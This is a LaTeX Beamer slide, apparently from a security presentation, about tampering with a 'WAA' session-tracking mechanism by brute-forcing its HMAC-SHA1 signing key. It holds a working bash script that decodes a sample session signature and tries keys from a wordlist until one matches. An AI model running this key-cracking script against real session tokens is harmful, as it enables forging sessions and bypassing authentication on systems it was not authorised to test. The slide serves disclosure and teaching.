 \documentclass[handout, aspectratio=169, notes=hide]{beamer}
\begin{document}

\begin{frame}[fragile]
\frametitle{Tampering with the WAA's session tracking mechanism}
\framesubtitle{Brute force attack against the HMAC-SHA1 ``signature''}
\setlength{\parskip}{1.0em}
\begin{columns}[T]
\begin{column}[T]{0.6\textwidth}	
\setlength{\parskip}{1.0em}

\begin{enumerate}
\setlength{\parskip}{1.0em}
\item MAC generated using HMAC-SHA1
\item Secret key chosen by WAA operator
\item Weak keys present opportunity for brute force attack
\end{enumerate}
\end{column}

\begin{column}[T]{0.4\textwidth}
\begin{lstlisting}[breaklines=true, frame=single, language=Bash, xleftmargin=\parindent, basicstyle=\tiny, showstringspaces=false, linewidth=1.0\textwidth]
#!/bin/bash
data="3!200!!20180319T000000Z!20180319T000000Z!86400!0000000000-0000-0!test0001!current!pwd!!"
raw_sig="o88E6CrefqXsgfAlmePJlE0A3Tw_"
decoded_sig=$(echo $raw_sig | tr "\-._" "+/=" | base64 --decode | xxd -p)
while read key; do
    sig=$(echo -n $data | openssl dgst -sha1 -hmac $key | cut -d' ' -f2)
    echo $sig
    if [ "$sig" == "$decoded_sig" ]; then
        echo "Key found: $key"
        break
    fi
done < wordlist
\end{lstlisting}

\end{column}
\end{columns}

\end{frame}
\note{
}

\end{document}
